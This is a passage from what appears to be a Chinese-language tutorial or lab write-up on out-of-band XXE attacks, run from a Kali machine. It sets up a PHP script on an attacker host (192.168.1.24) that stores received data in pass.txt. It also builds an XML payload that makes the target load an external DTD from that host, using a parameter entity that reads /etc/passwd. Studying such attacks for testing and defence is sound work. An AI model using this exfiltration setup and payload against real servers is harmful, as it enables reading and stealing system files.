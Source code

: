 >`% p1` 定义一个参数实体，`%` 和 `p1` 之间有一个空格，用于接收 `file:///etc/passwd` 的内容，`%p1` 引用参数实体，参数实体只能在 `DTD` 文件中被引用。

建立 php 文件用于接收目标发来的数据，并指定存储文件

```
┌──(root㉿Kali-24)-[~]
└─# vim xxe.php
```

```php
<?php
$pass=$_GET['pass'];
file_put_contents('pass.txt',$pass);
?>
```

创建 pass.txt 用于存储数据

```
┌──(root㉿Kali-24)-[~]
└─# touch pass.txt 
```

修改文件权限，以便于数据可以写入

```
┌──(root㉿Kali-24)-[~]
└─# chown -R www-data:www-data /var/www/html/*
```

启动 apache2

```
┌──(root㉿Kali-24)-[~]
└─# systemctl start apache2.service
```

测试 php 文件能否正常写入数据

```
┌──(root㉿Kali-24)-[~]
└─# curl http://192.168.1.24/xxe.php?pass=666
```

查看 pass.txt 文件

```
┌──(root㉿Kali-24)-[/var/www/html]
└─# cat pass.txt
666
```

>成功写入

构造 XML payload 使目标向黑客请求 DTD

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE e1 SYSTEM "http://192.168.1.24/xxe.dtd">
<hello>&e1;</hello>
```
